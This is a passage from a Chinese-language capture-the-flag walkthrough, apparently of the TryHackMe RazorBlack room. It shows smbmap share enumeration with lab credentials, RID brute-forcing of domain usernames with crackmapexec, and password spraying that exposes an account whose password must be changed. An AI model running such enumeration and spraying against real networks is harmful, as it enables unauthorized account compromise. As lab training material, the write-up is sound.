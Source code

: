 **![](img/4a96a98a37948c44559618985344f3ff.png)**

**破解哈希。**

# **SMB 枚举**

**我可以看到端口 139 和 445 是打开的。端口 139 和 445 用于**认证和文件共享**。有多种工具可用于枚举端口 139/445。我是用 **smbmap 开始的。****

```
smbmap -H 10.10.160.198 -u twilliams -p roastpotatoes

Disk                    Permissions     Comment
----                    -----------     -------
ADMIN$                  NO ACCESS       Remote Admin
C$                      NO ACCESS       Default share
IPC$                    READ ONLY       Remote IPC
NETLOGON                READ ONLY       Logon server share 
SYSVOL                  READ ONLY       Logon server share 
**trash                   NO ACCESS       Files Pending for deletion**
```

**我可以看到 **IPC$** 是**只读**，表示我们可以枚举用户名。**

```
crackmapexec smb 10.10.160.198 -u twilliams -p <....> --rid-brute500: RAZ0RBLACK\Administrator (SidTypeUser)
501: RAZ0RBLACK\Guest (SidTypeUser)
502: RAZ0RBLACK\krbtgt (SidTypeUser)
1000: RAZ0RBLACK\HAVEN-DC$ (SidTypeUser)
1106: RAZ0RBLACK\xyan1d3 (SidTypeUser)
1107: RAZ0RBLACK\lvetrova (SidTypeUser)
1108: RAZ0RBLACK\sbradley (SidTypeUser)
1109: RAZ0RBLACK\twilliams (SidTypeUser)
```

**我可以看到一个有趣的 SMB 共享，名为“***”trash*”**，但我目前没有用户“ ***twilliams*** ”的凭据来访问它。我决定使用 **crackmapexec** 和 IPC$ share 中枚举的用户列表来检查密码重用。**

```
crackmapexec smb 10.10.169.150 -u userlist -p <....>[-] raz0rblack.thm\Administrator:<pass> STATUS_LOGON_FAILURE 
[-] raz0rblack.thm\guest:<pass> STATUS_LOGON_FAILURE 
[-] raz0rblack.thm\krbtgt:<pass> STATUS_LOGON_FAILURE 
[-] raz0rblack.thm\HAVEN-DC$:<pass> STATUS_LOGON_FAILURE 
[-] raz0rblack.thm\ljudmila:<pass> STATUS_LOGON_FAILURE 
[-] raz0rblack.thm\lvetrova:<pass> STATUS_LOGON_FAILURE 
**[-] raz0rblack.thm\sbradley:<pass> STATUS_PASSWORD_MUST_CHANGE**
```
